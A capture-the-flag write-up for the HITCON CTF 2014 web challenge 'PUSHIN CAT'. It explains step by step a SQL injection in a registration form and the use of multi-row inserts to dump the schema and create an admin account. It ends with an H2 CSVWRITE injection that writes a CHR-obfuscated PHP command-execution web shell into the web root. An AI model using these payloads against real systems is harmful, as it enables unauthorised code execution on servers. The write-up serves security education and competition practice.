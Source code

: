 # HITCON CTF 2014: PUSHIN CAT

**Category:** Web
**Points:** 350
**Description:**

> http://203.66.14.60/

**Hint:**

> The flag is file based. Try to get shell :P

## Write-up

Basically PUSHIN CAT offers only three functionalities: login, registration and the deceptive [“Get flag”](http://203.66.14.60/flag.html). The last one tells us “You are not admin from `X`”, where `X` is our IP address.

The displayed IP address quickly leads down a wrong route because trying to forge a local IP address (e.g. 127.0.0.1) with HTTP headers does not work. However, the registration page seems to be vulnerable to a very basic SQL injection vulnerability, as it responds with a “Query Error” to a single quote in the password field (the detail of the error message seems to have increased since we solved the challenge, so now you even get the surrounding query). Even without seeing the query, one can easily guess that it must be an `INSERT` into the database. After fiddling around with the injection, the format of the SQL query seems to be this one:

```sql
INSERT INTO [something...] VALUES ([some fields], 'INJECTION IN PW', 'IP')
```

This is great news, since the IP value is shown to us when clicking the “Get flag” button. We can further try to obtain the amount of parameters in the query with a multi-INSERT technique: `foo','IP'),(1,2)-- -`. This will insert 2 records into the database. We can continously increase the amount of parameters in the second query until there is no error anymore. This is the case with 4 parameters: `foo','IP'),(1,2,3,4)-- -`.

In order to dump the database schema and content, we can make use of subqueries: The injection syntax is `foo',(select 1))-- -`, where 1 could be any query returning only one row. Additionally, we can use `group_concat` to group multiple rows together and read out `information_schema.tables` and `information_schema.columns`. From there on we can easily see that the original query roughly looks like this:

```sql
INSERT INTO users (role, username, password, ip) VALUES ('user', $username, $pw (INJECTION HERE), $ip)
```

Using this knowledge, we can build a multi-INSERT injection to create a user with the role “admin”. Logging in with that user and clicking “Get flag” only yields the message “Give shell plz” (IIRC). Another dead end.

A test confirms another interesting property: Multiple SQL statements are allowed in the injection (which is only the case with very few database drivers), so we can use `;` to add other kinds of queries. But let's first re-check the database engine to know our possibilities: The injection `foo',(select version()))-- -` yields `PostgreSQL 8.1.4  server protocol using H2 1.4.178 (2014-05-02)`. Okay, so… Postgres? However, what is this H2 thingy? As it turns out it is the underlying database engine. In order to exploit the server, we can make use of [all functions](http://www.h2database.com/html/functions.html) this database engine exposes. One of them, called `CSVWRITE`, seems to be particularly useful to drop files in the web root. The injection would look like this:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT 1')-- -
```

As can be seen from the syntax, the second parameter to `CSVWRITE` is a query. This example would write a file called `shell.php` in the web root (we guessed that but could also easily check the Apache configuration with file reading functions). However, the file would only contain a `1`. In order to avoid escaping our own quotes, we can use the `CHR(decimal)` function and the concatenation operator. Here is the resulting injection, using all the tricks:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT CHR(60)||CHR(63)||CHR(112)||CHR(104)||CHR(112)||CHR(32)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(36)||CHR(95)||CHR(71)||CHR(69)||CHR(84)||CHR(91)||CHR(48)||CHR(93)||CHR(41)||CHR(59)||CHR(32)||CHR(63)||CHR(62)')-- -
```

In conclusion, a lot of the difficulity of this challenge came from the multiple dead ends and small steps involved. We certainly tried a billion other attacks before finding this exact route to exploit the web application, but we had a lot of fun while doing it ;-)

## Other write-ups

* none yet

